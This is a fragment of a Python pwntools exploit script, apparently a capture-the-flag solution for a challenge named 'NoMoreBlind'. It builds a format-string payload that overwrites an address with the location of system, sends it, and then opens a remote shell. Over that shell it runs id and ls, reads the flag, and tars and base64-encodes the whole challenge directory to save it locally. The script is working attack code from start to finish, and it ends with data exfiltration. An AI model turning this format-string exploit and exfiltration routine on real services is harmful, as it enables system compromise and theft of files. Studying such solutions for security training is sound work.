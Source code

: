 ```python
if target_lo > target_hi:
    fmt = ""
    fmt += "%1${}c".format(system_hi)
    fmt += addr_hi
    fmt += "%1${}c".format(system_lo - system_hi)
    fmt += addr_lo
else:
    fmt = ""
    fmt += "%1${}c".format(system_lo)
    fmt += addr_lo
    fmt += "%1${}c".format(system_hi - system_lo)
    fmt += addr_hi

fmt += "\xff%{}$s\xff".format(o)
# fmt += "\x00" * (len(fmt) % 4)
fmt += "\x00" * 3
fmt += p32(target_lo)
fmt += p32(target_hi)

log.info("fmt payload len = {}\n{}\n{}".format(len(fmt), repr(fmt), hexdump(fmt)))
assert len(fmt) % 4 == 0
if "\n" in fmt:
    log.error("newlines in formatstr:\n" + hexdump(fmt))


# vp.interactive()

vp.sendline(fmt)

i = 0
full = (max([system_lo, system_hi]))
with context.local(log_level='info'):
    prog = log.progress("reading back fmt")
    while i < full:
        x = vp.recv(8096, timeout=0.2)
        i += len(x)
        prog.status("{} / {}".format(i, full))
    prog.success("done")

log.info("last block:\n" + hexdump(x))

vp.sendline("/bin/sh")
vp.sendline("id;pwd;ls -al")

vp.sendline("cd /home/rooney/suctf/NoMoreBlind")
vp.sendline("cat flag")

vp.interactive()

vp.sendline("cd /home/rooney/suctf/NoMoreBlind")
vp.sendline("tar cz . | base64; exit")

l = ""
x = vp.recv(8096, timeout=0.5)
l = x
while x:
    x = vp.recv(8096, timeout=0.5)
    l += x

with open("./nomore.leaked.tar.gz.b64", "wb") as f:
    f.write(l)
```

